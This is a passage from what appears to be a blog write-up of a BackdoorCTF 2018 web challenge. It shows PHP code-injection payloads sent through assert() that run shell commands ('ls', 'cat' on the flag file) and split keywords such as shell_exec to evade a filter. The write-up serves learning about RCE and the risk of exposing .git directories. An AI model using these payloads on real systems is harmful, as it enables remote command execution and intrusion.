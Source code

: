 #### Second Payload
So out first payload is successfully ran into the php

So let's try another payload to find what file are inside it

Payload :
```php
<answer>' and assert("pr"."int she"."ll_ex"."ec('ls -lsart')") and '1
```

After inserting that payload, we can get
![an image alt text]({{ awidardi.github.io }}/images/ctf/2018-03-20-backdoorctf18-web150/payload2.PNG "Payload 2's Snapshot")

#### Third Payload
After we see their directory, let's find out what's inside the random_flag_name.php file. So let's insert our payload to be like this

```php
<answer>' and assert("pr"."int she"."ll_ex"."ec('cat random_fl"."ag_fi"."le.p"."hp')") and '1

// Don't forget that we should split word print, shell_exec, flag, and php
```

By injecting that code, we can get the flag
![an image alt text]({{ awidardi.github.io }}/images/ctf/2018-03-20-backdoorctf18-web150/payload3.PNG "Payload 3's Snapshot")

## D. Conclusion
I think this problem is quite challenging but not difficult. We just have to be very careful with single quote and double quote characters since it may causes your code injection to be failed.
But it is very good for you that still learning about RCE. And in this challenge, you can know how dangerous your website will be if you upload your .git file into your website.
Please leave any comment, critics, or suggestion if you have something to say.

## E. References and Tools Used

#### References
* [PHP Assert](http://php.net/manual/en/function.assert.php)
* [.git extracting tutorial](https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/)
* [Code Injection](https://www.owasp.org/index.php/Code_Injection)

#### Tools Used
* Windows Subsytem for Linux Ubuntu
* [Brainfuck decoder](https://www.dcode.fr/brainfuck-language)
